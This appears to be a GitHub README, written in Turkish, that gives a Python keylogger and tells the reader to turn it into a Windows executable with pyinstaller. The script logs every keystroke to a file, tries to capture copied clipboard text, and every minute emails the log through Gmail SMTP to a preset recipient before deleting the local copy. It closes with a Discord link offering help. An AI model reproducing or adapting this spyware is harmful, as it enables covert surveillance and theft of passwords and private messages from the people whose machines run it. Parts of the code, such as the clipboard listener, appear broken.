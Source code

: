 önecelikle terminali açıp :pip install pyinstaller yazın 

sonra kodu exeye dönüstürmek için : pyinstaller --onefile your_script.py 

python code : 

    import smtplib
    from email.mime.multipart import MIMEMultipart
    from email.mime.text import MIMEText
    from pynput import keyboard
    from pynput import clipboard
    import os
    import time
    import schedule

    SMTP_SERVER = "smtp.gmail.com"
    SMTP_PORT = 587
    EMAIL_ADDRESS = "your_email@gmail.com"
    EMAIL_PASSWORD = "your_password"
    RECIPIENT_EMAIL = "recipient_email@gmail.com"

    tuş_sayıları = {}

    kopyalanan_metinler = open("kopyalanan_metinler.txt", "a")

    def on_press(key) :
    try :
    tuş = key.char  # Normal karakter tuşları
    except AttributeError :
    tuş = str(key)  # Diğer tuşlar(Shift, Ctrl, vs.)

    if tuş in tuş_sayıları :
    tuş_sayıları[tuş] += 1
    else:
    tuş_sayıları[tuş] = 1

    with open("basılan_tuşlar.txt", "a") as dosya :
    dosya.write(f"{tuş}\n")

    def on_copy(text) :
    kopyalanan_metinler.write(text + "\n")

    # E - posta gönderme fonksiyonu
    def send_email() :
    # E - posta oluşturma
    msg = MIMEMultipart()
    msg['From'] = EMAIL_ADDRESS
    msg['To'] = RECIPIENT_EMAIL
    msg['Subject'] = "Kullanıcı Aktiviteleri"

    # Metin belgesini e - posta içeriğine ekleme
    with open("basılan_tuşlar.txt", "r") as dosya :
    text = dosya.read()
    body = MIMEText(text)
    msg.attach(body)

    with smtplib.SMTP(SMTP_SERVER, SMTP_PORT) as server :
    server.starttls()
    server.login(EMAIL_ADDRESS, EMAIL_PASSWORD)
    server.send_message(msg)

    os.remove("basılan_tuşlar.txt")

    schedule.every(1).minutes.do(send_email)

    with keyboard.Listener(on_press = on_press) as listener1, clipboard.Listener(on_copy = on_copy) as listener2 :
    listener1.join()
    listener2.join()

    while True:
    schedule.run_pending()
    time.sleep(1)
   
    # Yardım için
    # Discord deimosthelegit 
    # https://discord.gg/4hF9rTBx
